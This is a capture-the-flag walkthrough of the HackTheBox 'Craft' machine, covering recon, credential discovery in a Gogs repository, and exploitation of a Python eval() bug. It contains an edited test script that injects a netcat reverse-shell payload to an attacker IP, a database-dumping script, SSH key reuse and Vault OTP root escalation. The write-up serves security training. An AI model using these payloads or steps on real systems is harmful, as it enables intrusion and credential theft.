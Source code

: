 ## HackTheBox Machine
![alt text](image.png)

### Link: https://app.hackthebox.com/machines/Craft
-------------------------------------------------------

### RECON:
+ Scan the open port in the machine:

```bash
$ nmap -sV -vv -A -T4 -p- craft.htb
PORT     STATE SERVICE  REASON  VERSION
22/tcp   open  ssh      syn-ack OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:e7:6c:22:81:7a:db:3e:c0:f0:73:1d:f3:af:77:65 (RSA)

443/tcp  open  ssl/http syn-ack nginx 1.15.8
|_http-server-header: nginx/1.15.8
| ssl-cert: Subject: commonName=craft.htb/organizationName=Craft/stateOrProvinceName=NY/countryName=US
| Issuer: commonName=Craft CA/organizationName=Craft/stateOrProvinceName=New York/countryName=US/emailAddress=admin@craft.htb/localityName=Buffalo/organizationalUnitName=Craft
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-02-06T02:25:47
| Not valid after:  2020-06-20T02:25:47
| MD5:   0111:76e2:83c8:0f26:50e7:56e4:ce16:4766
| SHA-1: 2e11:62ef:4d2e:366f:196a:51f0:c5ca:b8ce:8592:3730
6022/tcp open  ssh      syn-ack (protocol 2.0)
| ssh-hostkey: 
|   2048 5b:cc:bf:f1:a1:8f:72:b0:c0:fb:df:a3:01:dc:a6:fb (RSA)
|_ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDU+fEcb0HbuFvUiMce89AuwclFwGQAJ/FSk+X/uPL+08lP9AzNCivAovV8Py3XEGfUhSDQeJ6Xw5aZCIZB7z/40IViSC1S1fe49lmv7TlDSFKEOZIDQIAuDP3giwyrdX0MnM5qrFtqs9lIH0D8MnGVCh3kcjG5Mh+Jb4/fcGkIpLSAyVc2Fm5PFFV0XIay5vv/SffCO1141JHFZj+Sal4t4MmlZiY1RTaAgGLsn1SshS2EYFv91rZqHmmNCk+GNVSU9txRQm3OrB+06QTsOWnYN71p6+hTe/TQjhaE53zM+/xZi7sPIq6l6evvNSMOOt9fgVQkvM2NuVutLiq6od2h
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-Go
```

### Exploit Gogs service:
+ Access the main page `craft.htb`, we've found the `API` and Git service `Gogs`.
+ Go each page one by one, we've found some interesting things. In the page `Gogs`, we saw the repo `craft-api` with developers.
+ Looking around account of developers, we've found the commit of user `dinesh` about the bug of API:

![alt text](image-1.png)

--> We found the dinesh user's password for the API: `'dinesh', '4aUh0A8PbVJxgd'`.

+ We can use the credential to login API:

![alt text](image-2.png)

--> Get the token to login. We can use it to check later.

![alt text](image-4.png)

![alt text](image-5.png)

+ Back to the first commit, we check the source code `brew.py`:

```bash
 # make sure the ABV value is sane.
        if eval('%s > 1' % request.json['abv']):
            return "ABV must be a decimal value less than 1.0", 400
        else:
            create_brew(request.json)
            return None, 201
```

--> We've found the vulnerability in `eval()`, we can inject the payload into function to spawn reverse shell.

***Note:*** `eval()` - function evaluates the specified expression, if the expression is a legal Python statement, it will be executed:

```python
>>> eval("2 + 2")
4
>>> eval("__import__ ('os').system('whoami')")
zicco
0
```

+ Access `/craft-api/tests/test.py`, we see the source code and func `eval()` in brew.py that we will manipulate the parameter `abv` to inject the payload when execute `test.py` to create a new brew entry.
+ Download `test.py` to the attack machine and edit the file to run it:

```python
#!/usr/bin/env python

import requests
import json
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
json_response = json.loads(response.text)
token =  json_response['token']

headers = { 'X-Craft-API-Token': token, 'Content-Type': 'application/json'  }

# make sure token is valid
response = requests.get('https://api.craft.htb/api/auth/check', headers=headers, verify=False)
print(response.text)


# create a sample brew with real ABV... should succeed.
print("Create real ABV brew")
brew_dict = {}
brew_dict['abv'] = "__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> 4444 >/tmp/f')"
brew_dict['name'] = 'bullshit'
brew_dict['brewer'] = 'bullshit'
brew_dict['style'] = 'bullshit'

json_data = json.dumps(brew_dict)
response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
```

***Note***: We add `urllib3`:
```
import urllib3 
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
```
to disable the error certification

+ Now run file test.py and open netcat to capture the shell:

![alt text](image-6.png)

![alt text](image-7.png)

### Finding SSH credenials through Mysql database:
+ In the file `settings.py`, we found the credential user of database:

![alt text](image-8.png)

--> We've had `User`, `Password`, `DB`, `Host`.

+ Back again the repo `craf-api`, we've check python file `dbtest.py`. We are able to run file .py in the target machine to extract the information of database.
+ Firstly, we will wget file .py in target machine and edit again `dbtest.py`.

```bash
$ sudo python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.14.5 - - [09/Mar/2025 14:27:13] "GET / HTTP/1.1" 200 -
10.10.14.5 - - [09/Mar/2025 14:27:13] code 404, message File not found
10.10.14.5 - - [09/Mar/2025 14:27:13] "GET /favicon.ico HTTP/1.1" 404 -
10.10.10.110 - - [09/Mar/2025 14:27:22] "GET /dbtest.py HTTP/1.1" 200 -
```

![alt text](image-9.png)

+ We can check file edited:
```python
#!/usr/bin/env python

import pymysql
from craft_api import settings

# test connection to mysql database

connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                             user=settings.MYSQL_DATABASE_USER,
                             password=settings.MYSQL_DATABASE_PASSWORD,
                             db=settings.MYSQL_DATABASE_DB,
                             cursorclass=pymysql.cursors.DictCursor)

try: 
    with connection.cursor() as cursor:
        sql = "show tables" # Edit query sql to execute which we want
        cursor.execute(sql)
        result = cursor.fetchall()
        print(result)

finally:
    connection.close()
```
***Note***: Because import `pymysql` we can use `fetchall()` - Fetch all the rows. Searching more relate class `pymysql` in [here](https://pymysql.readthedocs.io/en/latest/modules/cursors.html).

+ Run `dbtest.py`:

![alt text](image-10.png)

+ Now we change query to extract users:

```python
 with connection.cursor() as cursor:
        sql = "SELECT * FROM user"
        cursor.execute(sql)
        result = cursor.fetchall()
        print(result)
```

+ Run `dbtest.py` again:

![alt text](image-11.png)

--> We use the credential user `gilfoyle` to login git service `gogs`.

+ Login `gogs` we found the gilfoyle's repo name `craft-infra`.
+ Check repo we had key .ssh/id_rsa to login SSH. Save key to machine and login SSH.

![alt text](image-12.png)

### Privilege Escalation:
+ Check again repo `craft-infra`, we've checked secret file `secrets.sh` in /vault.
+ Read it and we guess we can use it to privilege escalation.

![alt text](image-13.png)

+ Research about `vault` and `ssh`, we found the way call `One-time SSH passwords`. [Read it!!!](https://developer.hashicorp.com/vault/docs/secrets/ssh/one-time-ssh-passwords).

+ We run following `Automate it!` to create a new OTP and invoke SSH with the correct parameters to connect to the host.

+ Run CLI and we get the root:

![alt text](image-14.png)
-----------------------------------------------------------
